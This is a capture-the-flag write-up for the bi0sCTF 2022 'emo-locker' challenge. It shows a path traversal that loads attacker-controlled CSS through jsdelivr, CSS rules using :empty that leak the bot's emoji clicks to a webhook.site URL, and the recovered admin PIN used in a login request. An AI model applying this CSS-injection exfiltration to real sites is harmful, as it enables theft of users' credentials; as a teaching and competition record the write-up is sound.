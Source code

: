 # bi0sCTF-2022-emo-locker

![image](https://user-images.githubusercontent.com/14858959/214005352-76bf81ac-38ec-45c6-9b63-bdf036cb0130.png)


The first thing we identify is that the app is taking a value from the URL without filtering it and use it to load CSS code.
![image](https://user-images.githubusercontent.com/14858959/214001671-b508e6a2-23e2-4f8f-9df0-80f4bf4cf5da.png)

We can exploit this by inserting on the URL our custom hash, pointing to our malicious code:
```
https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/xxxxxxx-mode.css
```
By visiting `http://web.chall.bi0s.in:10101/#../../gh/GramThanos/github_repo_here@github_commit_here/malicious.css?` the CSS that the page will load will be (notice the path traversal):
```
https://cdn.jsdelivr.net/gh/GramThanos/github_repo_here@github_commit_here/malicious.css?-mode.css
```

Note: The jsdelivr CDN apart from access to NPM modules also can give access to GitHub projects. Thus we can deliver our code through GitHub. Note that since jsdelivr is caching our files, it is best to point to specific commits when we deliver payloads.

Since the code is in CSS, we will have to detect the user actions (click) using CSS. This is done by creating a request on each action and monitoring the requests. Normaly to do that you add background image requests on actions such as "hover", "focus", "active", but here since the client is a bot, such mouse events where not working.

First we added an instant request to verify that our code was working:
```css
body {background-image: url('https://webhook.site/8566bcb8-ed2f-468c-8ad3-d587c2494428?i=loaded');}
```
![image](https://user-images.githubusercontent.com/14858959/214003245-2a86c85d-6a05-4b9e-b322-7a379ca1ebf4.png)

Then by observing the page changes on each interaction with the emojies, we identified that on each click, the emoji was removed, leaving the button empty from content... thus after some searching we identified that the `:empty` CSS selector that could be used to detect/fire our events.
For example, for the first emoji (with id 1) we had the following CSS code (we had to generate a differenct CSS code for each emoji):
```css
span[role=img][aria-label="1"]:empty {background: url('https://webhook.site/8566bcb8-ed2f-468c-8ad3-d587c2494428?i=1');}
```

We send the link `http://web.chall.bi0s.in:10101/#../../gh/GramThanos/bi0sCTF-2022-emo-locker@53e70828379f3826a4213dd952307526b4a4707a/malicious.css?` to the bot. And we got the click events:
![image](https://user-images.githubusercontent.com/14858959/214003788-0a64022e-8195-4d0f-9edb-a745e7eea470.png)
By instecting the events from the first to the last one we tritrieved the admin password:
```
[51, 32, 73, 34, 85, 126, 17, 158, 79, 50]
``` 

We make to request to login:
```javascript
fetch("http://web.chall.bi0s.in:10101/api/login", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,el;q=0.8",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache"
  },
  "referrer": "http://web.chall.bi0s.in:10101/?",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "{\"username\":\"admin\",\"pin\":[51, 32, 73, 34, 85, 126, 17, 158, 79, 50]}",
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```
![image](https://user-images.githubusercontent.com/14858959/214001505-7888f7ef-10a7-4b46-9e3a-a8d7842a884d.png)


The flag is returned as a cookie:
![image](https://user-images.githubusercontent.com/14858959/214001253-0ba31965-9e3d-4bda-9ed4-f1a4083ccb0c.png)
